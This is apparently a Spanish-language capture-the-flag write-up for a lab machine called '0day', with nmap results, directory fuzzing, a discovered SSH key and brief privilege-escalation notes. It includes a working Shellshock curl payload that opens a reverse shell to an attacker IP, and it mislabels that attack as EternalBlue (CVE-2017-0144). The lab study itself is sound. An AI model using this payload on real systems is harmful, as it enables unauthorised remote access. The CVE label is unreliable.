 ### nma
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.39 seconds
```

### Ports

| PORT   | STATE | SERVICE | VERSION                                                         |
| ------ | ----- | ------- | --------------------------------------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.7 ((Ubuntu))                                   |

### Enumeración puerto 80

![[Pasted image 20240224203940.png]]

### Fuzzing con wffuzz

![[Pasted image 20240224204334.png]]
###### en el directorio backup encontramos un id_rsa
![[Pasted image 20240224204640.png]]

### Common Vulnerabilities and Exposures
###### CVE-2017-0144 - EternalBlue
```python
curl -A "() { :; }; echo Content-type: text/html; echo; /bin/bash -i >& /dev/tcp/10.8.74.185/7890 0>&1" "http://10.10.245.192/cgi-bin/test.cgi"
```

![[Pasted image 20240224212355.png]]

### Escalada de privilegios

###### sacamos el hash del id_rsa
![[Pasted image 20240224220415.png]]
parece que no funciona esta id_rsa

### Enumeracion del sistema

![[Pasted image 20240224224841.png]]
tenemos un exploit para esta version de linux. creamos un servidor y lo compartimos con la maquina
###### vamos a sobre escribir el path debido a que el actual parece estar dañado
```python
	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
